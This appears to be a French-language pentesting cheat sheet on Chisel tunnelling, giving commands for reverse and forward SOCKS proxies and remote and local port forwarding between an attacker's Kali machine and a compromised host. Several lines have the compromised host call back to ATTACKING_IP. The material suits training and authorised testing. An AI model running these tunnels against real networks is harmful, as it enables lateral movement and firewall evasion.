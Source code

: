 >Chisel utilise un proxy SOCKS5

Nous examinerons deux utilisations du ciseau dans cette tâche (un proxy SOCKS et une redirection de port)

## Reverse SOCKS Proxy - Proxy socks inverse

Cela se connecte à partir d'un serveur compromis à un écouteur en attente sur notre machine attaquante.

- Sur notre KALI:

```sh
chisel server -p LISTEN_PORT --reverse &
```

- Sur l'hôte compromis:

```sh
chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

---
## Forward SOCKS Proxy - Proxy SOCKS direct

les proxys directs sont plus rares que les proxys inverses pour la même raison que les shells inversés sont plus courants que les shells de liaison ; De manière générale, les pare-feu de sortie (qui gèrent le trafic sortant) sont moins stricts que les pare-feu d'entrée (qui gèrent les connexions entrantes). 

- Sur l'hôte compromis:

```sh
chisel server -p LISTEN_PORT --socks5
```

- Sur notre KALI:

```sh
chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
# PROXY_PORT est le port qui sera ouvert pour le proxy.
```

Par exemple, `./chisel client 172.16.0.10:8080 1337:socks` se connecterait à un serveur chisel exécuté sur le port 8080 de 172.16.0.10. Un proxy SOCKS serait ouvert sur le port 1337 de notre machine attaquante.

---
## Remote Port Forward - Transfert de port distant

Un transfert de port distant se produit lorsque nous nous reconnectons à partir d'une cible compromise pour créer le transfert.

- Sur notre KALI:

```sh
chisel server -p LISTEN_PORT --reverse &
```

- Sur l'hôte compromis:

```sh
chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

`LOCAL_PORT` est le port que nous souhaitons ouvrir sur notre propre machine attaquante pour établir une liaison avec le port cible souhaité.


Pour utiliser un vieil exemple, supposons que notre propre IP est 172.16.0.20, l'IP du serveur compromis est 172.16.0.5, et notre cible est le port 22 sur 172.16.0.10. La syntaxe pour rediriger 172.16.0.10:22 vers le port 2222 sur notre machine attaquante serait la suivante :

```sh
chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

La reconnexion à notre machine attaquante, fonctionnant comme un serveur burin, a commencé par :

```sh
chisel server -p 1337 --reverse &
```

Cela nous permettrait d'accéder à 172.16.0.10:22 (via SSH) en naviguant vers 127.0.0.1:2222.

---
## Local Port Forward - Transfert de port local

un transfert de port local est l'endroit où nous nous connectons de notre propre machine attaquante à un serveur chisel écoutant sur une cible compromise.

Sur la cible compromise:

```sh
chisel server -p LISTEN_PORT
```

- Sur KALI:

```sh
chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

Par exemple, pour se connecter à 172.16.0.5:8000 (l'hôte compromis exécutant un serveur chisel), en transférant notre port local 2222 vers 172.16.0.10:22 (notre cible), nous pourrions utiliser :

```sh
chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```